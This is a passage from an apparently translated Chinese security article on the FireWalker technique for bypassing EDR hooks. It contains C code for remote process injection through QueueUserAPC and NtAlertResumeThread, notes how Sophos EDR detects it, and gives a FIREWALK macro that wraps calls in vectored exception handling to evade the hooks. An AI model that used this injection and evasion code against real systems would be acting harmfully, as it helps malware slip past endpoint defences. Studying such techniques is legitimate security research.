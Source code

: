 ```
    printf("About to queue APC\n");
    getchar();

    if (!QueueUserAPC((PAPCFUNC)lpvRemote, hRemoteThread, NULL))
    `{`
        printf("QueueUserAPC failed\n");
        return 1;
    `}`

    printf("About to NtAlertResumeThread\n");
    getchar();

    ULONG ulSC = 0;

    if (NtAlertResumeThread(hRemoteThread, &amp;ulSC) != 0)
    `{`
        printf("NtAlertResumeThread failed\n");
        return 1;
    `}`

    printf("Done\n");
```

上述代码利用`VirtualAllocEx`和`WriteProcessMemory`函数，注入可执行的Payload（存储在rgbPayload，注入到远程进程中），然后使用APC（通过`CreateRemoteThread`和`QueueUserAPC`）创建远程线程并执行，最后释放线程，使其在迅速终止之前使用`NtAlertResumeThread`唤醒并执行所有排队的APC。

请注意，假设`CreateRemoteThread`成功，那么在这个进程中就完全不必再使用APC（即`QueueUserAPC`）了，因为它可以直接用于执行写入目标进程的代码。我们希望EDR能够检测到这个行为，因此我们使用了上面的实现方式。

之所以选择Sophos EDR来进行PoC的验证，是因为我们发现该产品仅对一些有限的函数进行挂钩，并在WoW64进程中挂钩了32位API。执行PoC将会导致应用程序迅速终止，并出现以下错误：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01437f6114a42c550f.png)

检查控制台的输出后发现，对`QueueUserAPC`的调用触发了检测：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0116a6ab5f9b65282c.png)

为了测试FireWalker对于Sophos EDR是否有效，我们需要像之前在调用`CreateProcess`时所做的那样，将对`QueueUserAPC`的调用包装在`AddVectoredExceptionHandler/Trap`等调用中。<br>
为了使FireWalker的使用过程更加方便，我创建了一个简单的FIREWALK宏，来自动实现以下步骤：

```
#define FIREWALK(call)    \
    [&amp;]()`{` \
    HANDLE veh = AddVectoredExceptionHandler(1, TrapFilter); \
    Trap(); \
    auto r = call; \
    Untrap(); \
    RemoveVectoredExceptionHandler(veh); \
    return r; \
    `}`()
```
